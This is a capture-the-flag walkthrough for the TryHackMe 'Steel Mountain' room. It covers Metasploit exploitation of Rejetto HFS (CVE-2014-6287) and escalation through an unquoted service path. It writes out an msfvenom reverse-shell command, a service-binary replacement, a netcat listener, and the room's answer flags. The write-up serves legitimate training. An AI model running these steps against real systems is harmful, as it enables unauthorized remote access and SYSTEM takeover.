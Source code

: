 # [Steel Mountain - TryHackMe](https://tryhackme.com/room/steelmountain) | Cyanyde

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## Credits

- Room created by [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Premium

## Initial Access

### Scan the machine with nmap. What is the other port running a web server on?

- `nmap -sV -p- -T5 \<target ip>`
    - *-sV* flag returns service versions
    - *-p-* scans all ports
    - *-T5* increases scan timing agressiveness

```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               HttpFileServer httpd 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49188/tcp open  msrpc              Microsoft Windows RPC
49189/tcp open  msrpc              Microsoft Windows RPC
```

> The non-standard port running a web server is port **8080**

### Take a look at the other web server. What file server is running?

> A quick web search shows that HttpFileServer httpd 2.3 is a version of **Rejetto HTTP File Server**

### What is the CVE number to exploit this file server?

> ExploitDB listing from searching for "rejetto http file server vulnerability": https://www.exploit-db.com/exploits/39161 | CVE-**2014-6287**

### Use Metasploit to get an initial shell. What is the user flag?

- `msfconsole` to start Metasploit and `search cve-2014-6287` to find module listed on ExploitDB
- `use 0` or `use exploit/windows/http/rejetto_hfs_exec` to select exploit
- `set RHOSTS <target ip>` and `set RPORT 8080` to point the exploit at the second web server on the target machine and `exploit`

> <details><summary>When connected to the target via meterpreter shell, <code>cat C:/Users/bill/Desktop/user.txt</code> to get the flag: </summary>b04763b6fcf51fcd7c13abc7db4fd365</details>

## Privilege Escalation

- Use the [provided tool](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) to enumerate system
    - *curl* or *wget* the file to attack machine
    - Use `upload` in meterpreter shell to transfer file to target machine

### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

- Run `PowerUp.ps1` then use the `Invoke-AllChecks` cmdlet

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

> The service that shows up is **AdvancedSystemCareService9**

### What is the root flag?

- The *PowerUp* scan results show that the service can be restarted, and the path can be edited
- Generate shellcode to replace legitimate binary
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.201.67.109 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`
- Kill the powershell channel with *ctrl+c*
- Use <code>upload *local path to*\ASCService.exe</code> in meterpreter shell
- `shell` to drop into cmd shell
- Kill and replace existing service
    - `sc stop AdvancedSystemCareService9` to kill service
    - `copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"` and confirm replacement of the original ASCService.exe
- Set up listener on attacker machine
    - `nc -lvnp 4443`
- Start malicious process on target machine
    - `sc start AdvancedSystemCareService9`
- Restarting the service on target machine should send a reverse shell to the port specified in the malicious ASCService.exe
- Within the reverse shell, find and print the root flag
    - `whoami` to confirm SYSTEM status
    - `dir /s root.txt` to locate the flag file
    - cd `C:\Users\Administrator\Desktop` and `type root.txt` to get the flag

> <details><summary>The root flag of this machine is </summary>9af5f314f57607c00fd09803a587db80</details>

## Access and Escalation without Metasploit

- Use [this](https://www.exploit-db.com/exploits/39161) exploit for initial access to target machine
- This [netcat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) is also provided


